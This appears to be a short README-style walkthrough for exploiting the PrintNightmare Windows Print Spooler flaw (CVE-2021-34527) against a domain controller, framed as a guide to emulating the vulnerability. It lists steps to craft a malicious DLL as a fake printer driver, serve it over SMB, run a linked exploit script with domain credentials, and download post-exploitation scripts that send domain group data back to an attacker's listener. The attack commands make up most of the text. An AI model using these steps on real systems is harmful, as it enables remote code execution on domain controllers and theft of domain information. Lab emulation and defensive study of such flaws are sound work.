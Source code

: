 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

##Pre-exploitation

**Attacker**
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
3. Run SMB server service and modify the config file
4. Place the faked printer driver to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running (the vulnerability can't be exploited if the protocol isn't enabled)
   ```console
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
   ```

6. Exploit the PrintNightmare vulnerability to the target machine
   Download the python script: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file
   
```console
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>
```

**Target machine**
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the service 
```Powershell
PS C:\Users\Administrator> get-service spooler
PS C:\Users\Administrator> start-service spooler
```
**e.g. replace ```<username>``` with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discover victim DC machine and domain group info, then send them back to attacker listener. 

```powershell
PS Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat
PS Invoke-WebRequest -Uri path/to/export.bat -o export.bat
```

